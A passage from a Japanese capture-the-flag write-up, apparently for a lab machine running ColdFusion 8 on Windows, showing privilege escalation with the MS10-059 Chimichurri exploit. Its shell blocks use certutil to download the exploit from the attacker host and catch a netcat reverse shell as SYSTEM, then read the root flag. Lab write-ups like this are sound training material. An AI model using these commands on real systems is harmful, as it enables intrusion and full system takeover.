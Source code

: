 ```shell
[*] done
```

### MS10-059を使用します。
#### kaliでHTTPサーブします。
```shell
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
#### certutilでChimichurri.exeをkaliからダウンロードします。
```shell
C:\ColdFusion8\runtime\bin>certutil -urlcache -split -f "http://10.10.14.40/Chimichurri.exe" Chimichurri.exe
certutil -urlcache -split -f "http://10.10.14.40/Churraskito.exe" Churraskito.exe
****  Online  ****
  0000  ...
  c800
CertUtil: -URLCache command completed successfully.
```

### ncで待ち受けます。
```shell
$ nc -lnvp 4445
listening on [any] 4445 ...
```

### Chimichurri.exeを実行します。
```shell
C:\ColdFusion8\runtime\bin>Chimichurri.exe 10.10.14.40 4445
Chimichurri.exe 10.10.14.40 4445
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
C:\ColdFusion8\runtime\bin>
```

### system権限が取れました。フラグを取ります。（フラグは省略しています）
```shell
$ nc -lnvp 4445
listening on [any] 4445 ...
connect to [10.10.14.40] from (UNKNOWN) [10.129.105.182] 49609
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
nt authority\system

C:\ColdFusion8\runtime\bin>
```

```shell
C:\Users\Administrator\Desktop>more root.txt
more root.txt
e1b...
```